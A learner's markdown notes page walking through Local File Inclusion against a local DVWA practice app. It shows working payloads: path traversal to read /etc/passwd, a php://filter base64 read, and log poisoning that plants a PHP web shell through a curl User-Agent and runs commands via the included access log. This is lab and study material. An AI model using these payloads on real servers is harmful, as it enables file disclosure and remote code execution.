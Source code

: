 # 🧠 Day 2 — Local File Inclusion (LFI) Vulnerability Walkthrough

## 🔍 What is LFI?

Local File Inclusion (LFI) is a web vulnerability that allows an attacker to include files on a server through the web browser. This can lead to information disclosure, code execution, or full server compromise depending on how it's leveraged.

---

## 🔎 Basic LFI Test: Reading `/etc/passwd`

The first parameter tested was:

http://127.0.0.1/DVWA/vulnerabilites/?page=../../../../../../etc/passwd
this gave us the access to the /etc/passwd file of the server.

The things we can note about services and users from this are: 
- The Users with **login Permissions** have: `/usr/bin/zsh`
- The services with **no login Permission** have: `/usr/sbin/nologin`
- And some are even more restricted and have: `/usr/bin/false`, which literally exit when called.
![LFI passwd Output](/from-scratch-to-shell/Day-2-notes/Screenshots/passwd-output.png)

## `php://filter` trick (base64 encoding)

On higher security like (high/medium), these files of the server are not just directly accessible as they are in low security level, and to get that we access them using `php://filter`

- we accessed the same `/etc/passwd` but with the phpFilter, This gave us the base64 encoded version of the output.
- to covert it back to human readable form, we ran this: 
```bash
echo "encoded string" | base64 -d
```
here '*-d*' is for decoding the string using base64.

## 🧾 Log File Injection (Log Poisoning)
This is a bit advanced trick. This lets us inject malicious code to the server's log file.
The injected payload was:
```bash
curl -A "<?php echo shell_exec(\$_GET['cmd']); ?>" http://127.0.0.1/DVWA/vulnerabilities/fi/?page=include.php
```
- here, to actually run this, we had to give the access of the `/var/log/apache2/access.log` to others, to do that we ran this:
```bash
sudo chmod o+r /var/log/apache2/access.log
```
- after doing this we simply accessed a file on which we want to run the command, to execute, we accessed:
http://127.0.0.1/DVWA/vulnerabilites/fi/?page=../../../../var/log/apache2/access.log&cmd=ls

![Log inclusion output](/from-scratch-to-shell/Day-2-notes/Screenshots/Log-inclusion-output.png) 
